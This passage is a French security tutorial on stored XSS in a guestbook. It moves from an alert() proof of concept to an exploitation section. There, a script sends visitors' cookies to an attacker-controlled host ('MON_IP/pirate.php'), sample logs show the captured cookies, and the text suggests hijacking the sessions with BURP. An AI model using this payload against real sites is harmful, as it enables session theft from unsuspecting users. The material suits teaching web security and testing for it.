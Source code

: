 Afin de stocker les commentaires qui ont été laissés, le site dispose d'une base de données.

### Proof of concept

Imaginons qu'au lieu d'écrire du texte brut dans le livre d'or, nous écrivions le code JS suivant (i.e. le stocker dans la base de données) :

```
<script> alert(1); </script>
```

Cela impliquerait que, chaque commentaire étant lu par chaque visiteur, le navigateur de chaque visiteur exécutera le code JS sans faire de distinction avec du texte brut.

> Ainsi, si après avoir écrit ce bout de code dans le livre d'or, et après avoir rafraîchi la page, une pop-up affichant "1" s'affiche, c'est que le site est vulnérable à une XSS stored.
{.is-success}

> De manière générale, afin de tester la vulnérabilité, on privilégiera de tester d'inclure du code HTML. Par exemple : 
"Ceci est un \<u>message\</u>"
Si "<u>message</u>" s'affiche en souligné, cela signifiera que les balises peuvent être interprétées et donc de même pour la balise \<script>.
{.is-info}

### Exploitation

Nous avons mentionné plus haut, qu'une des finalités possibles de la faille XSS était le vol des cookies. Si l'on souhaite voler les cookies des utilisateurs, au lieu de leur afficher un mot en souligné ou leur afficher un pop-up, nous pouvons tenter le code suivant :

```
<script>document.location('http://MON_IP/pirate.php?cookie='+document.cookie);</script>
```

où l'on remplacera MON_IP par un nom de domaine ou une adresse IP que l'on contrôle.

> Si, comme 99% des gens sur cette terre, tu ne disposes ni d'une IP publique ni d'un site web, je te renvoie à la dernière rubrique de ce tutoriel.
{.is-warning}

Si tout fonctionne bien, au fur et à mesure que des gens visitent la page du livre d'or sur laquelle on a écrit notre code JS malicieux, nous devrions voir apparaître un certain nombre de requêtes se faire au niveau de notre IP / nom de domaine :
```
GET /pirate.php?cookie=COOKIE=NkI9qa4cdLGO2P7MIsWS8ofA6 HTTP/1.1" 404
GET /pirate.php?cookie=COOKIE=GkI4qa4cdLGO2P1NIsWS8ofA8 HTTP/1.1" 404
GET /pirate.php?cookie=COOKIE=2kI9qa4cdLGO2PaMIs8S8ofb6 HTTP/1.1" 404
```

> Il s'agira en fait des propres navigateurs des clients connectés qui exécuteront "bêtement" le code JS que l'on leur a transmis, ici en l'occurence, une redirection en passant dans l'URL leur cookie de connexion.
{.is-success}

Il suffira ensuite de se connecter sur le site avec les cookies récupérés, avec l'aide d'un logiciel comme BURP, par exemple.
